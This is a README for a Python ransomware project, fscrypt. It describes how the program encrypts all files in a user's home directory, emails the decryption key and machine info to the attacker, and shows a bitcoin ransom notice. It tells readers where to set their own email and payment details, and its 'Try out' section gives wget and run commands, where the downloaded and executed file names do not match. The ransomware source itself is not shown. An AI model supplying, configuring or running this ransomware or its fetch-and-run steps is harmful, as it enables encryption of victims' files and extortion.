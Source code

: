 Warning
Do not actually execute this on your Host OS! especially...

fscrypt.start(debug=False)  --> Catastrophic!
Help
if you would like to support me, here is my paypal email address: anon84080@gmail.com


Overview
The program is quite simple. Once invoked, it generates session_id and session_key, then it starts encrypting all files under your user directory. Finally, it will send the victim's machine info, session_id and session_key to the attacker with an anonymous email service (through mechanize), as well as displaying a notice to the victim, telling he/she to pay the ransom via bitcoin.

You may notice that I use Node and LinkedList to generate session_id and session_key. (This sequence generator was actually one of my assignment when I was a freshmen). It assembles a sequence with 0~68 unrepeatedly, in random order.

Check the object variable of fscrypt. You can set your email address and payment related stuff there.

Requirements
Python 2.7
pyCrypto (crypto operations)
urllib2 (retrieve user ipv4 address)
mechanize (send session_key via anonymous email)
webbrowser (open html notice at the end)

Try out
wget https://raw.githubusercontent.com/aesophor/fscrypt/master/fscrypt.py
sudo chmod u+x fscrypt.py
./fuxsocy.py
